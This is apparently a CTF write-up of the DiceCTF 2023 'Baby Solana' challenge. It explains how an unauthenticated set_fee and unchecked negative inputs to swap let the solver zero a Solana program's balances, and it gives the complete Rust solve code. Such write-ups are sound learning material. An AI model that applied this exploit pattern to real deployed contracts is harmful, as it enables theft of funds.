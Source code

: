 ```yaml
---
title: "Dice '23 Baby Solana"
style: border
color: primary
comments: true
description: dice ctf smart contract challenge
tags: Pwn
---
```

# Baby Solana

## Remark
So this was my first Solana pwn/challenge.
It was a great learning experience seeing Rust at work interacting with Solana.
It seems to have an interesting syntax!

## Source Code
Extracting the given folder provides two folders: framework and framework-solve

I was mostly interested main.rs and lib.rs within the framework folder.

Observe the code in main.rs:
```rust
        let ix = chall::instruction::InitVirtualBalance {
            x: 1_000_000,
            y: 1_000_001,
        };
```
I'm not 100% sure about the Rust syntax, but it seems like initializing instance variables in a class of a trivial Object Oriented language; in this case x and y to 1,000,000 and 1,000,001 respectively.

and
```rust
        if state.x == 0 && state.y == 0 {
            writeln!(socket, "congrats!")?;
            if let Ok(flag) = env::var("FLAG") {
                writeln!(socket, "flag: {:?}", flag)?;
            } else {
                writeln!(socket, "flag not found, please contact admin")?;
            }
        }
```
This will print the flag if x and y are both set to zero. This will be our aim.

In lib.rs, we can find two methods set_fee and swap that interact with fee, x, and y. These will allow us to control x and y and eventually print the flag:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```

## Attack Plan
We need to utilize these methods to manipulate the fee, x, and y.

We are given this code in lib.rs inside framework-solve folder:
```rust
pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        Ok(())
    }
```

I assume that I need to complete this method get_flag to "get flag."

By studying the method swap, I concluded that if I can pass a value of -1,000,000 to amt and set fee as -100, I can set x and y as 0.

We pretty much have to set the fee first in order to call swap for another account and make x and y zero.

If we take a look at lib.rs again:
```rust
    pub fn set_fee(ctx: Context<AuthFee>, fee: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.fee = fee;

        Ok(())
    }
    
    pub fn swap(ctx: Context<Swap>, amt: NUMBER) -> Result<()> {
        let state = &mut ctx.accounts.state.load_mut()?;

        state.x += amt;
        state.y += amt;

        state.x += state.fee * state.x / 100;
        state.y += state.fee * state.y / 100;

        Ok(())
    }
```
We see that the context needs to be AuthFee to call set_fee and Swap to call swap.
So I'll initialize two accounts, each being AuthFee and Swap type so that I could set the fee using AuthFee account and set x and y using Swap account.

## Exploiting
Within the framework-solve folder, I will edit lib.rs's getflag() method to call set_fee() and swap().

To call set_fee(), I need to create a AuthFee account, which can be set as:
```rust
let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };
```

Then, we can create an instance of fee_accs to be used to call set_fee like:
```rust
let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
```

and we call set_fee as:
```rust
chall::cpi::set_fee(fee, -100)?;
```

Similarily, we set account type Swap, create an instance, and call swap as follows:
```rust
let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
chall::cpi::swap(swap_cpi, -1_000_000)?;
```

Finally, running the provided ```./run.sh ``` gives us the flag.

## End
The final lib.rs looks like:
```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;

declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(_ctx: Context<GetFlag>) -> Result<()> {
        let fee_accs = chall::cpi::accounts::AuthFee{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let fee = CpiContext::new(_ctx.accounts.chall.to_account_info(), fee_accs);
        chall::cpi::set_fee(fee, -100)?;

        let swap_accs = chall::cpi::accounts::Swap{
            state: _ctx.accounts.state.to_account_info(),
            payer: _ctx.accounts.payer.to_account_info(),
            system_program: _ctx.accounts.system_program.to_account_info(),
            rent: _ctx.accounts.rent.to_account_info(),
        };

        let swap_cpi = CpiContext::new(_ctx.accounts.chall.to_account_info(), swap_accs);
        chall::cpi::swap(swap_cpi, -1_000_000)?;

        Ok(())
    }
}

#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,

    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```
Thanks, 079.
